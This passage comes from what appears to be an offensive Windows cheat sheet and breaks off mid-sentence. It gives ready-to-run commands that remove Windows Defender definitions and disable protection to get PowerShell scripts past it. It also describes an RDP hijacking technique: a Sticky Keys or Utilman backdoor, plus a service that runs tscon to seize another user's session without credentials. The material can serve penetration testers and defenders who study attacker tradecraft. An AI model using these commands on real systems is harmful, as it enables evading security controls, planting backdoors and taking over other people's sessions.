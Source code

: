 List Applocker's effective policy on the system

```
    Get-ApplockerPolicy -Effective
```

#### Windows Defender

Remove definitions and disable AV protection (Useful when Powershell scripts are being blocked by Defender)

```
    c:\program files\windows defender\mpcmdrun.exe" -RemoveDefinitions -All Set-MpPreference -DisableIOAVProtection $true
```

#### APPCMD

Get virtual directories in IIS

```
    c:\windows\system32\inetsrv\appcmd.exe list vdir /text:physicalpath
```

### Windows Lateral Movement

RDP Hijacking

If you have SYSTEM context on a host, you can assume the RDP sessions of other users without credentials using the tscon.exe command.

Gain access to cmd.exe to issue the tscon.exe command over RDP by creating a backdoor with Stickkeys or Utilman. Use scheduled tasks (as SYSTEM) or create a service to execute the desired command.

[RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)

```
    # View RDP sessions on system your RDP'd to with administrative permissions
    # Locally
    quser

    # Remote
    quser /server:<servername>

    # Create a service that will swap your SESSIONNAME with the desired disconnected session
    sc create sesshijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#XX" error= "ignore"

    # Start service
    net start sesshijack
    or
    sc start sesshijack
```

Linux to Windows Remoting

- In windows run

